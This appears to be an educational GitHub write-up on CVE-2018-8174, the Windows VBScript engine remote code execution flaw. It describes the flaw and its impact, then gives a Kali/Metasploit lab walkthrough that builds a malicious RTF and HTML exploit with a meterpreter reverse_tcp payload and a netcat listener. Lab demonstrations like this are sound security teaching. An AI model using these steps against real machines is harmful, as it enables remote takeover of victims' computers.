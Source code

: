 Windows VBScript Engine Remote Code Execution Vulnerability(CVE-2018-8174)
==== 
# Descriptions

Due to the code execution vulnerability in the VBScript script execution engine (vbscript.dll), an attacker can embed malicious VBScript into Office files or websites. Once the user accidentally clicks, a remote attacker can obtain the current user permission to execute the malicious code in the script; the vulnerability affects the latest version of the IE browser and applications that use the IE kernel. <br><br>
Users may be attacked when browsing the web or opening Office documents, and eventually, hackers implanted backdoor Trojans to take complete control of the computer. In a web-based attack scenario, an attacker could exploit the vulnerability of a specific website through Internet Explorer and then convince the user to view the website. An attacker could also embed ActiveX controls marked as "safe to initialize" in an application or Microsoft Office document that hosts the IE rendering engine. Attackers can also use compromised websites and websites that accept or host user-provided content or advertisements. These websites could contain specially crafted content that could exploit this vulnerability[^1].<br><br>
The chart below shows the CVEs and number of URLs seen leveraging the respective CVEs at 2018 Q2.
![](https://unit42.paloaltonetworks.com/wp-content/uploads/2018/09/Figure_2-1.png)  
CVE-2018-8174 is a code execution vulnerability in the Microsoft VBScript engine detected as a zero-day attack and patched by Microsoft in May 2018. This vulnerability was not publicly known until the second quarter, and we can see it was quickly used by attackers taking advantage of it, making it number two on our list in the second quarter, exploited by 291 malicious URLs.[^2]<br><br>

Basic Information:[^3][^4][^5]<br>

| CVE      | Products Affected by CVE    | CVSS Score (NVD)     | Examples of Threat Actors    | Attack Vector     | Attack Complexity  | User Interaction  | Confidentiality  |
| ---------- | :-----------:  | :-----------: | :-----------:  | :-----------:  | :-----------:  | :-----------:  |   :-----------:  |
| CVE-2018-8174r    | Microsoft Window     | 7.5      | Silent Group, Dark Hotel APT   | Network  | High  | Required  | High  |




# What is the VBScript Engine?

VBScript Engine is one of the VBScript scripting language engines. It is a lightweight interpreted language in the Microsoft environment. It uses COM components, WMI, WSH, ADSI to access elements in the system and manage the system. At the same time, it is the default programming language for asp dynamic web pages. With asp built-in objects and ADO objects, users can quickly master the asp dynamic web page development technology for accessing databases.<br>

#### pros
- Programs can be directly executed through text editor
- Case insensitive, simple syntax, easy to learn and to implement.
- Performs the addition of interactive activities to Web pages.

#### cons

- VBscript is used only by IE. 
- VBScript don't have enough command line support.
- Since there is no development environment available by default, debugging is difficult.[^6]
-
# What is VBScript used for? 

* VBScript is used to give functionality and interaction to web pages.
* VBScript can be used for client-side scripting. However, only Internet Explorer can interpret it. 
* VBS can also be used for server-side scripting. This requires the use of a Microsoft web server such as Personal Web Server (PWS), or Internet Information Server (IIS) and a packaging such as Active Server Pages (ASP).[^7]

# What could this vulnerability affect?

The vulnerability could corrupt memory, allowing an attacker to execute arbitrary code in the current user's context. An attacker who successfully exploited this vulnerability could gain the same user rights as the current user. If the current user is logged on with administrative user rights, an attacker who successfully exploited the vulnerability could take control of an affected system. An attacker could then install programs, view, change, delete, create new accounts with full user rights.[^5]<br>

In a web-based attack scenario, an attacker could host a specially crafted website designed to exploit the vulnerability through Internet Explorer and then convince users to view the website. An attacker could also embed ActiveX controls marked "safe for initialization" in an application or Microsoft Office document that hosts the IE rendering engine. Attackers can also use compromised websites and websites that accept or host user-provided content or advertisements. These websites could contain specially crafted content that could exploit this vulnerability.<br>

# A Practice of VBscript Attack

## Specifications
Attacker Machine: Kali Linux
Tool: Metasploit-Framework
Victim Machine: 64 bits Windows 7

## Demo
- Download [Kali](https://www.kali.org/get-kali/) Virtual Machine where it has built-in metasploit-framework that we are going to use.
- Download the exploit module inside the Kali Virtual Machine.
```bash
git clone https://github.com/0x09AL/CVE-2018-8174-msf
```
- Copied to the corresponding exploit module directory. (Notice: The original file format with “-” will reporting error so change it to “_” instead.)
```bash
cd CVE-2018-8174-msf/
cp CVE-2018-8174.rb /usr/share/metasploit-framework/modules/exploits/windows/fileformat/cve_2018_8174.rb
cp CVE-2018-8174.rtf /usr/share/metasploit-framework/data/exploits/
```
- Now we enter the msfconsole with
```bash
msfconsole
```
- Then we use the module and set up srvhost and lhost, notice that srvhost and lhost are the same as your IP address
```bash
use exploit/windows/fileformat/cve_2018_8174
set PAYLOAD windows/meterpreter/reverse_tcp
set srvhost 192.168.1.111
set lhost 192.168.1.111
exploit
```
- Now we download the VBscript with (Attention, you may need to run this file as ROOT user so do `sudo su` first)
```bash
git clone https://github.com/Yt1g3r/CVE-2018-8174_EXP
```
- Run the VBscript script, once it completed it will generate a malicious html template called "exploit.html" and a file named "msf.rtf" which is a malicious file that can be opening with Microsoft Word & Microsoft Office.
```bash
python CVE-2018-8174.py -u 192.168.1.111/exploit.html -o msf.rtf -i 192.168.1.111 -p 4444
```
- Lastly, we start out the apache server, copy & send the the VBscript html and be prepare to attack by listening port 4444
```bash
systemctl start apache2
cp exploit.html /var/www/html
nc -lvvp 4444
```
# Reference 
[^1]: https://www.rapid7.com/db/vulnerabilities/msft-cve-2018-8174/
[^2]: https://unit42.paloaltonetworks.com/unit42-web-based-threats-2018-q2-u-s-remains-1-malicious-web-addresses-china-falls-2-7/
[^3]: https://blog.qualys.com/product-tech/2019/12/27/top-19-vulnerability-cves-in-santas-dashboard-tracking
[^4]: https://nvd.nist.gov/vuln/detail/CVE-2018-8174
[^5]: https://msrc.microsoft.com/update-guide/vulnerability/CVE-2018-8174
[^6]:https://www.tutorialspoint.com/vbscript/vbscript_overview.htm
[^7]: https://www.cse.fau.edu/~roy/cop4020.01c/VBScript.htm







